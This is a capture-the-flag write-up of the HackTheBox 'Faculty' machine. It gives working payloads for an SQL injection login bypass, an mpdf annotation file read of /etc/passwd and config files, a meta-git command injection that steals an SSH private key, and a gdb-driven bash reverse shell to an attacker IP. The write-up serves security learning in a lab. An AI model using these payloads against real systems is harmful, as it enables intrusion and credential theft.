 ```yaml
---
title: "Faculty Machine Writeup"
classes: wide
header:
  teaser: /assets/images/hackthebox/Faculty-Writeup/Faculty.png
ribbon: red
description: "Faculty is medium machine"
categories:
  - HackTheBox
toc: false
---
```


<img src="/assets/images/hackthebox/Faculty-Writeup/Faculty.png" style="zoom:50%;" />

## Recon

First, let's start with nmap port scanning.

![](/assets/images/hackthebox/Faculty-Writeup/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/assets/images/hackthebox/Faculty-Writeup/Website.png)

Running gobuster against the site. it shows the following results:

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried admin/admin as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/assets/images/hackthebox/Faculty-Writeup/bypass-login.png)

![](/assets/images/hackthebox/Faculty-Writeup/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/assets/images/hackthebox/Faculty-Writeup/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/assets/images/hackthebox/Faculty-Writeup/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/assets/images/hackthebox/Faculty-Writeup/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/assets/images/hackthebox/Faculty-Writeup/cyberchef.png)

nc returns a response, NOICE!

![](/assets/images/hackthebox/Faculty-Writeup/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/assets/images/hackthebox/Faculty-Writeup/lfi.png)

`/etc/passwd`

<img src="/assets/images/hackthebox/Faculty-Writeup/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/assets/images/hackthebox/Faculty-Writeup/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/assets/images/hackthebox/Faculty-Writeup/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/assets/images/hackthebox/Faculty-Writeup/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/assets/images/hackthebox/Faculty-Writeup/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/assets/images/hackthebox/Faculty-Writeup/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/assets/images/hackthebox/Faculty-Writeup/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-2.png)

![gdb](/assets/images/hackthebox/Faculty-Writeup/root.png)